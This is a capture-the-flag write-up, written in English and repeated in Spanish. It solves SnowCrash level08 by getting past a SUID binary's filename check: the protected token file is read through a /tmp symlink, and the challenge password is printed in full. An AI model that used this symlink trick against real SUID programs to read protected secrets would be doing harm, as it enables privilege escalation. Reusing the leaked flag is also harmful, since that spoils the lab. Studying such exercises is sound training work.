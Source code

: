 ### LEVEL08

- Two files in the directory `level08`: `level08` and `token`.

- ls -la 
    ```bash
    -r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
    -r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -r-x------  1 level08 level08  675 Apr  3  2012 .profile
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token
    ```
- I don't have access to `token`, and `level08` has SUID.

- I download `level08` locally.
    ```bash
    scp -P 4242 level14@192.168.1.36:/home/flag/flag08/flag08 .
    ```

- Use Ghidra with `level08`
    ```c 
    pcVar1 = strstr((char *)in_stack_00000008[1],"token");
    if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
    }
    ```

- `Level08` is a binary that reads a file passed as the first and only parameter.

- But there's an `if` statement that checks if the parameter is == 'token', we don't have permissions.

- The solution is to create a link to `token` and pass that link as the parameter.
    ```bash
    level08@SnowCrash:~$ ln -sf ~/token /tmp/a
    level08@SnowCrash:~$ ./level08 /tmp/a
    quif5eloekouj29ke0vouxean
    ```

- It gives me the password for the user `flag08`.
    ```bash
    level08@SnowCrash:~$ su flag08
    Password:
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    ```

---

### LEVEL08

- Dos archivos en el directorio `level08` y `token`

- ls -la 
    ```bash
    -r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
    -r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -r-x------  1 level08 level08  675 Apr  3  2012 .profile
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token
    ```

- No tengo acceso a `token` y `level08` tiene SUID

- Descargo el level08 a local
    ```bash
    scp -P 4242 level14@192.168.1.36:/home/flag/flag08/flag08 .
    ```

- Uso Ghidra con level08
    ```c 
    pcVar1 = strstr((char *)in_stack_00000008[1],"token");
    if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
    }
    ```

- `Level08` es un binario que lee un archivo que se pasa como primer y único parámetro 

- Pero hay un `if` que si el parametro es == 'token' no tenemos permisos

- La solucion es hacer un link a `token` y pasarle como parametro ese link
    ```bash
    level08@SnowCrash:~$ ln -sf ~/token /tmp/a
    level08@SnowCrash:~$ ./level08 /tmp/a
    quif5eloekouj29ke0vouxean
    ```

- Me da la clave para el usuario `flag08`
    ```bash
    level08@SnowCrash:~$ su flag08
    Password:
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    ```
